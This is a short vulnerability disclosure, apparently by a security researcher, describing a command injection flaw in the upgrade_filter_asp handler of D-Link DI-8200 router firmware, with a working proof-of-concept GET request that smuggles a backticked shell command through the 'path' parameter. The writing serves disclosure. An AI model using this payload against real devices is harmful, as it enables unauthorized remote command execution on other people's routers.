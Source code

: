 Firmware version:
	DI_8200-16.07.26A1
Download address:
	http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200)

The upgrade_filter_asp function has command injection；
The received request is sent to parm; And parm doesn't do any filtering;
parm data is sent to v17 through strcpy, and then only "http://" is matched without any filtering；
Splice to v16 through sprintf, and finally system(v16); Cause command injection;
![[Pasted image 20240806103832.png]]

Here is the FirmAE simulated firmware command injection process:
![[Pasted image 20240806104833.png]]
![[Pasted image 20240806104945.png]]

poc：

```
GET /upgrade_filter.asp?path=http://`ps%20%3E%20/rce.txt` HTTP/1.1

Host: 192.168.0.1

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh,en-US;q=0.9,en;q=0.8

Cookie: wys_userid=admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86

Connection: close


```
